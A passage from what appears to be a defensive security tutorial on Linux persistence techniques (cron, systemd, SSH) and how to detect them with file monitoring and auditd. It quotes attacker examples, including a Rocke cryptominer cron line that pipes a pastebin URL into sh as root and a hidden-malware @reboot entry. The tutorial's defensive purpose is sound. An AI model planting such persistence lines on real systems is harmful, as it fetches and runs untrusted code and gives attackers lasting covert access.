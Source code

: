 Some attackers skip persistence if systems rarely reboot, but advanced adversaries establish long-term footholds through **cron jobs**, **systemd services**, or **SSH backdoors**.

### 🕓 Cron Persistence

Cron jobs act like Windows scheduled tasks — simple and reliable.

```bash
@reboot nohup /home/<user>/.<hidden>/<malware> > /dev/null 2>&1 &
```

Rocke cryptominer, for instance:

```bash
echo "*/10 * * * * root (curl https://pastebin.com/raw/1NtRkBc3 | sh)" > /etc/cron.d/root
```

### ⚙️ Systemd Persistence

Attackers can register malicious services:

```bash
[Unit]
Description=Initial cloud-online job
[Service]
ExecStart=/usr/bin/cloud-online
```

---

## 🧩 Detecting Persistence

Monitor both **file changes** and **process executions**:

| **Monitor Changes In** | **Paths**                                             |
| ---------------------- | ----------------------------------------------------- |
| Cron files             | `/etc/crontab`, `/etc/cron.d/*`, `/var/spool/cron/*`  |
| Systemd files          | `/lib/systemd/system/*`, `/etc/systemd/system/*`      |
| Related processes      | `crontab -e`, `systemctl enable`, `nano /etc/crontab` |

Example:

```bash
ausearch -i -f /etc/systemd
ausearch -i -x crontab
```

---

## 👤 Account Persistence

Attackers may add privileged users or inject SSH keys.

### New User Creation
